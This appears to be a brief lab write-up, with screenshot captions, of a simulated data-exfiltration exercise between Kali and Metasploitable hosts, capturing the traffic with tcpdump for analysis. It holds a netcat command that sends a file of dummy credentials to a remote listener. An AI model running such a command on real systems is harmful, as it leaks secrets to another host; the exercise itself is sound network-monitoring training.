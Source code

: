 --- Data Exfiltration and Anomalous Traffic ---
# Capture [trcap.png]
- Preparing traffic capture with command: sudo tcpdump -i eth1 -w nivel4_exfiltracion.pcap
# Capture [simulate.png]
- Connecting to Metasploit FTP usign command: nc 192.168.56.101 9000 < /home/msfadmin/secret.txt
# Capture [filetest.png]
- Loading a test file to simulate sensible information/credentials
- Using commands: echo "SecretPassword123" > secret.txt
# Capture [check.png]
- Verifying content in kali 
